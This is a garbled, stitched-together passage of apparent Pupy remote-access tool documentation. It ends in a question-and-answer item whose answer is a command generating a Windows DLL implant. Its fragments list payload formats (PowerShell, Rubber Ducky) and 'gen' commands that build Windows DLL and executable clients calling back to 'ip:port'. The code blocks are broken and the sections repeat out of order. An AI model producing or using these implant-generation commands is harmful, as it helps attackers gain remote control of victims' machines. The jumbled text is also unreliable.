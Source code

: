 Context:```

-
```pyinst```

-
```py_oneliner```

-
```ps1```

-
```ps1_oneliner```

-
```rubber_ducky```

## Payloads Generation
Payloads generation are done using the `gen` command.
```
>> gen -f <format> <launcher> -t <transport>
```

- Windows dll
```

or
```code
>> download C:\\Windows\\System32\\cmd.exe
```

## Create Aliases
Modules aliases can be defined in the `pupy.conf` file. If you define the following alias :
```code
shell=interactive_shell
```
>> gen -f <format> <launcher> -t <transport>
```

- Windows dll
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```

- Windows executable
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

- Python file - Bind
```
```
 Question: Generate an example of using gen command related to creating  Windows DLLs with Pupy. Each command should follow the format similar to: \n >> gen -f <format> <launcher> -t <transport>. 
```
 Your response: 
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```
